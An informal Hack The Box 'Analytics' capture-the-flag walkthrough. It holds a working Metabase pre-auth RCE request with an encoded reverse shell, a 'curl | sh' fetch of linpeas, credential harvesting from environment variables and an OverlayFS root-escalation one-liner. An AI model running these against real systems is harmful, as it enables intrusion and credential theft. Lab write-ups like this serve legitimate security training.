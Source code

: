 ![[Analytics.png]]
#HackTheBox #Machines #Seasons #Easy 
## 1
Nmap
Open browser.  its cant open
edit your hosts
Open your browser again. yeah cannn
click navigation, login
browser cant shown anyone, just edit your hosts again
yoo its opened metabase sign in
try open `/api/session/properties`, n find setup api
lets go to `/api/setup/validate`, the result is api endpoint doesnt exist
kayy. lets find the version of metabase with `curl`
search exploit metabase with version
I found it -> [COY](https://blog.assetnote.io/2023/07/22/pre-auth-rce-metabase/)
```http
POST /api/setup/validate HTTP/1.1
Host: localhost
Content-Type: application/json
Content-Length: 812

{
    "token": "5491c003-41c2-482d-bab4-6e174aa1738c",
    "details":
    {
        "is_on_demand": false,
        "is_full_sync": false,
        "is_sample": false,
        "cache_ttl": null,
        "refingerprint": false,
        "auto_run_queries": true,
        "schedules":
        {},
        "details":
        {
            "db": "zip:/app/metabase.jar!/sample-database.db;MODE=MSSQLServer;TRACE_LEVEL_SYSTEM_OUT=1\\;CREATE TRIGGER pwnshell BEFORE SELECT ON INFORMATION_SCHEMA.TABLES AS $$//javascript\njava.lang.Runtime.getRuntime().exec('bash -c {echo,YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx}|{base64,-d}|{bash,-i}')\n$$--=x",
            "advanced-options": false,
            "ssl": true
        },
        "name": "an-sec-research-team",
        "engine": "h2"
    }
}
```
Open burpsuite, send metabase website to repeater, and use the program above
change host `localhost` to `data.analytical.htb`
change `YmFzaCAtaSA+Ji9kZXYvdGNwLzEuMS4xLjEvOTk5OCAwPiYx` with your reverse shell base64
dont forget to listening `nc -nvlp {port}`
n run repeater with send
on your terminal, open where you saved the linpeas, and start your server http
on terminal nc, you connect with user 99..., run `curl {MY IP}/linpeas.sh | sh` look in the `system information - environment` section
see the METAPASS section for the password, and METAUSER for the username
login to ssh with `METAUSER@TARGET IP` and `METAPASS`
if you run ls command, you can found flag user.txt
try sudo -l to root privileges, its cant
see version of the machine with uname -a. u can see, ubuntu 22.04.2
lets search exploit ubuntu 22.04.2 on google
i found this site -> [COY](https://www.crowdstrike.com/blog/crowdstrike-discovers-new-container-exploit/)
```bash
unshare -rm sh -c "mkdir l u w m && cp /u*/b*/p*3 l/; setcap cap_setuid+eip l/python3;mount -t overlay overlay -o rw,lowerdir=l,upperdir=u,workdir=w m && touch m/*;" && u/python3 -c 'import os;os.setuid(0);os.system("bash")'; rm -rf l u w m
```
find flag on directory root
congratulations!!😁👍